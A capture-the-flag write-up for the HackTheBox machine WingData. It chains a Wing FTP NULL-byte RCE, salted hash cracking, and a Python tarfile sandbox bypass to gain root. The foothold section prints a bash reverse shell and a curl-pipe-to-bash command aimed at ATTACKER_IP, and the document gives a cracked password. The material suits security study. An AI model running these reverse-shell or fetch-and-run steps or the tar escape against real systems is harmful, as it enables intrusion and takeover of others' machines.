




# HackTheBox — WingData Writeup

WingData is an Easy-rated Linux box that punches well above its weight, chaining two brand-new CVEs into a clean root. You'll exploit an unauthenticated RCE in Wing FTP Server via NULL byte injection, crack salted SHA-256 hashes to pivot laterally, then abuse a subtle Python `tarfile` sandbox bypass to overwrite root's SSH authorized keys. Both vulnerabilities were disclosed in 2025 — this box is a great excuse to study them properly.

---

<div id="protected-marker"></div>

## Reconnaissance

### Port Scanning

A standard nmap service scan against the target reveals a minimal attack surface: SSH and HTTP.




The HTTP redirect tells us to add `wingdata.htb` to `/etc/hosts`. With that in place, browsing to port 80 lands on a static Bootstrap marketing page — nothing interactive, but the "Client Portal" link redirects to `ftp.wingdata.htb`, which I also add to my hosts file.

### Web Enumeration

`ftp.wingdata.htb` greets us with a **Wing FTP Server v7.4.3 (Free Edition)** web login. The version number is right there in the page footer — this is going to matter very soon. Crucially, anonymous login is enabled, which will be the entry point for our RCE.

Nothing else interesting on the main domain. The static page is pure template noise (TemplateMo 562, if you're curious).

---

## Foothold — CVE-2025-47812: Wing FTP Unauthenticated RCE

CVE-2025-47812 affects Wing FTP Server through version 7.4.3 and is a NULL byte injection vulnerability in the login handler. Here's how it works conceptually:

When you POST a username to `/loginok.html`, the server's authentication routine truncates the string at the first NULL byte for validation purposes — so `anonymous\x00<lua code here>` passes the anonymous auth check. But the *full* string, including everything after the NULL, gets written into the session file. Wing FTP's web interface executes Lua code embedded in session files, so when you subsequently request `/dir.html` with that session cookie, your injected Lua runs server-side.

The result: unauthenticated RCE as the `wingftp` service user.

**A practical gotcha:** Anonymous users have a maximum concurrent session limit. Every exploit invocation creates a new session, and they persist for roughly five minutes before expiring. Hammering the exploit too quickly exhausts the session slots and locks you out — you'll get auth failures until old sessions age out. To avoid this, I wrapped the PoC in a script that logs out the session after each command execution.

Rather than spinning up an interactive shell through the Lua injection (messy and unreliable), I served a reverse shell script over HTTP and fetched it with `curl`:

```bash
# On attacker — serve the shell script
python3 -m http.server 8888
```

```bash
# shell.sh — hosted on attacker
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

```bash
# On attacker — catch the connection
nc -lvnp 4444
```

The RCE payload (via the CVE PoC) executes:

```bash
curl http://ATTACKER_IP:8888/shell.sh | bash
```

Once the shell connects, upgrade it for a better experience:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

We're now operating as `wingftp`.

---

## Lateral Movement — wingftp → wacky

### Looting Wing FTP Configuration

With a shell as `wingftp`, the entire Wing FTP installation at `/opt/wftpserver/` is readable. The interesting files live under `Data/`:

- **`Data/1/users/*.xml`** — per-user configuration files containing password hashes
- **`Data/_ADMINISTRATOR/admins.xml`** — admin panel hash
- **`Data/settings.xml`** — server-level settings including a plaintext MD5 "server password"




The hashes look like raw hex SHA-256. I extracted them all:

| User  | SHA-256 Hash |
|-------|-------------|
| wacky | `32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca` |
| john  | `c1f14672feec3bba27231048271fcdcddeb9d75ef79f6889139aa78c9d398f10` |
| maria | `a70221f33a51dca76dfd46c17ab17116a97823caf40aeecfbc611cae47421b03` |
| steve | `5916c7481fa2f20bd86f4bdb900f0342359ec19a77b7e3ae118f3b5d0d3334ca` |

### Cracking the Hashes — Finding the Salt

My first instinct was raw SHA-256 (hashcat mode `-m 1400`) against `rockyou.txt`. Nothing cracked. Then I tried using the username as the salt with mode `-m 1410` (SHA-256 with appended salt). Still nothing.

The rabbit hole cost me time I shouldn't have spent. The correct approach was to check Wing FTP's documentation more carefully — the software uses a fixed application-wide salt string. Grepping through the config files eventually surfaces it:

```bash
grep -r -i "salt" /opt/wftpserver/Data/
```

The salt is the literal string `WingFTP`, appended to the password before hashing (`sha256($pass.$salt)`). With that, hashcat mode `1410` cracks `wacky`'s hash immediately:

```bash
hashcat -m 1410 hashes.txt rockyou.txt --username -o cracked.txt \
  --separator : --quiet \
  # format: hash:salt
  # prepare file as hash:WingFTP
```

**Cracked:** `wacky : !#7Blushing^*Bride5`

### SSH as wacky

Password reuse is alive and well. The cracked FTP password works directly for SSH:

```bash
ssh wacky@<TARGET>
# password: !#7Blushing^*Bride5
```

User flag obtained from `/home/wacky/user.txt`.

---

## Privilege Escalation — CVE-2025-4517: Python tarfile `filter="data"` PATH_MAX Bypass

### Enumeration

First thing after landing as `wacky`:

```bash
sudo -l
```




The restore script accepts a tar archive path and extracts it as root. Looking at the relevant portion of the script:

```python
tar.extractall(path=staging_dir, filter="data")
```

The `filter="data"` argument was introduced in Python 3.12 as the "safe" extraction mode — it's supposed to block path traversal and symlink escapes. Immediately I check the Python version:

```bash
/usr/local/bin/python3 --version
# Python 3.12.3
```

Python 3.12.3. That's in the vulnerable range for **CVE-2025-4517**.

### Understanding the Vulnerability

CVE-2025-4517 is subtle. The `data` filter validates symlinks by calling `os.path.realpath()` on the resolved path and checking that it stays within the extraction directory. The problem is what happens when that resolved path exceeds **PATH_MAX (4096 bytes)**.

When `os.path.realpath()` encounters a path longer than 4096 characters, it silently **falls back to pure string manipulation** rather than actually following the filesystem symlinks. It returns a syntactically resolved string that *looks* safe but isn't. The kernel, however, has no such limitation — when the extraction actually happens, it follows every symlink correctly, escaping the sandbox.

The exploit constructs a malicious tar file that:

1. Creates **16 chained directory/symlink pairs** — each symlink (`a`, `b`, ... `p`) points to a directory with a ~237-character name. The *literal* path stays short, but the *fully resolved* path grows past 4096 bytes.
2. Adds an **escaping symlink** — a 254-character path of `../` sequences walking back to the extraction root. By the time `realpath()` reaches this, it's already broken and can't detect the escape.
3. Chains through the escape symlink plus additional `..` traversals to reach `/` (the staging directory is exactly 4 levels deep from root).
4. Writes the **payload** — `escape/root/.ssh/authorized_keys` — which the broken `realpath()` thinks stays in the sandbox, but the kernel writes to `/root/.ssh/authorized_keys`.

### Exploitation

The backup directory is writable by `wacky` (`drwxrwx--- root:wacky`) and the restore script validates that the tar filename matches `backup_<digits>.tar`. I generated the malicious archive on my attacker machine:

```bash
python3 cve_2025_4517_exploit.py
# outputs: backup_1001.tar
```

The exploit script bakes my attacker SSH public key into the archive as the authorized_keys payload. Transfer it to the target:

```bash
scp backup_1001.tar wacky@<TARGET>:/opt/backup_clients/backups/
```

Trigger the extraction as root:

```bash
sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py \
  -b backup_1001.tar -r restore_pwned
```

And SSH in:

```bash
ssh -i key root@<TARGET>
```




---

## Lessons Learned

**Session management matters in exploit chains.** Wing FTP's anonymous session limit is a real operational constraint. Blasting a PoC without understanding resource exhaustion can lock you out for minutes. Always understand your target's session lifecycle before scripting rapid fire calls.

**Hash cracking rabbit holes are expensive.** I wasted significant time trying raw SHA-256 and username-as-salt before finding that Wing FTP uses the fixed string `WingFTP` as its salt. When hashes won't crack with the obvious approaches, dig into application documentation before burning wordlist time.

**"Safe" isn't safe if you don't patch.** CVE-2025-4517 is a great example of a mitigation that was implemented correctly in theory but had a subtle implementation bug. Python 3.12's `filter="data"` is genuinely safer than unfiltered extraction — except on versions before 3.12.11 and 3.13.4. Any time you see `tar.extractall` with `filter="data"` in a sudo context, the first thing to check is the Python version. The fix is a simple upgrade.

**PATH_MAX is a real attack surface.** The CVE works because `os.path.realpath()` has a silent fallback for oversized paths — it doesn't raise an error, it just gives you a wrong answer. This class of "silent degradation" bugs is worth keeping in mind whenever you're auditing security-critical path resolution code.

**First blood on this box was 7:18.** For an Easy-rated machine with two public PoCs available, the time sink was entirely on the hash cracking side — not the CVE exploitation. Methodology discipline (check the application's own docs before iterating hashcat modes) would have saved the most time.
